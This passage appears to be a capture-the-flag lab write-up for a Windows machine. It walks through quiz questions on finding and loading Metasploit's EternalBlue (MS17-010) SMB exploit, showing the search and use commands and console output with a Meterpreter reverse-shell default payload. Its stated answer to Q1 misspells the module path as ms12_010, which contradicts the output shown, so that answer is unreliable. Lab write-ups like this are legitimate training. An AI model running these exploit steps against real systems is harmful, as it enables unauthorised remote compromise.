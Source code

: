 **Q1. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**

- `search ms17-010`
![searching exploit](./blue/search_exploit.png)

- `use exploit/windows/smb/ms17_010_eternalblue`

    ```bash
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_eternalblue) >
    ```
**Ans: `exploit/windows/smb/ms12_010_eternalblue`**


**Q2. Show options and set the one required value. What is the name of this value? (All caps for submission)**
- `show options`
![show options for the exploit](./blue/options.png)

